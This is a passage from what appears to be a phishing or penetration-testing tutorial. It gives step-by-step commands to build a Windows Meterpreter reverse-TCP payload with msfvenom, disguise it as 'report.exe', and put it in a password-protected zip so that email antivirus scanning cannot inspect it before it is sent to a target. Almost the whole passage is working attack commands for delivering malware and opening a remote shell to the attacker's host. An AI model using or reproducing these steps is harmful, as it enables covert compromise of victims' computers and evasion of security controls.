 Lets start by creating the malicious _report.exe_ file that we will send by using _MSFVenom_:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=2222 -f exe > report.exe`

Once that's done, move the file into the Desktop directory, and go to it:

`mv report.exe Desktop/`

We need to zip the _.exe_ file using a password-protected zip in order to bypass possible antivirus blockers of certain email providers.

`cd /home/kali/Desktop`
`zip -e report.zip report.exe`

When prompted for a password, write:
`123445`